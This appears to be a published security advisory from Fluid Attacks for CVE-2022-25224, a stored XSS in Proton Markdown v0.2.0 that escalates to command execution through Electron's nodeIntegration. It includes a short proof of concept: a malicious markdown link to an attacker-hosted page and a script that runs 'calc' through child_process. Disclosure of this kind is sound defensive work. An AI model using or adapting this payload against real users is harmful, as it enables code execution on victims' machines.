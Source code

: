 ```yaml
---
slug: advisories/lennon/
title: Proton v0.2.0 - XSS To RCE
authors: Oscar Uribe
writer: ouribe
codename: lennon
product: Proton v0.2.0
date: 2022-04-29 10:00 COT
cveid: CVE-2022-25224
severity: 7.1
description: Proton Markdown Version 0.2.0 - XSS Markdown Link To RCE
keywords: Fluid Attacks, Security, Vulnerabilities, Proton, XSS, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | Proton v0.2.0 - XSS To RCE                          |
| **Code name**         | [Lennon](https://en.wikipedia.org/wiki/John_Lennon) |
| **Product**           | Proton Markdown                                     |
| **Affected versions** | Version 0.2.0                                       |
| **State**             | Public                                              |
| **Release date**      | 2022-05-17                                          |

## Vulnerability

|                       |                                                                                                      |
| --------------------- | ---------------------------------------------------------------------------------------------------- |
| **Kind**              | XSS to RCE                                                                                           |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010) |
| **Remote**            | No                                                                                                   |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:N                                                         |
| **CVSSv3 Base Score** | 7.1                                                                                                  |
| **Exploit available** | No                                                                                                   |
| **CVE ID(s)**         | [CVE-2022-25224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25224)                      |

## Description

Proton **v0.2.0** allows an attacker to create a malicious
link inside a markdown file. When the victim clicks the link,
the application opens the site in the current frame allowing
an attacker to host JavaScript code in the malicious link in
order to trigger an XSS attack. The `nodeIntegration` configuration
is set to **on** which allows the webpage to use `NodeJs` features,
an attacker can leverage this to run OS commands.

## Proof of Concept

### Steps to reproduce

1. Create a markdown file with the following content.

   ```javascript
   [Click me!!!](http://192.168.1.67:8002/rce.html)
   ```

2. Host the `rce.html` file with the following
   content on a server controlled by the attacker.

   ```javascript
    <script>
        require('child_process').exec('calc');
    </script>
   ```

3. Send the markdown file to the victim.
   When the victim clicks the markdown link the site
   will be open inside electron and the JavaScript
   code will spawn a calculator.

### System Information

* Version: Proton v0.2.0.
* Operating System: Windows 10.0.19042 N/A Build 19042.
* Installer: Proton.Setup.0.2.0.exe

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

By 2022-05-17 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://github.com/steventhanna/proton/>

## Timeline

<time-lapse
  discovered="2022-04-29"
  contacted="2022-04-29"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-05-17">
</time-lapse>
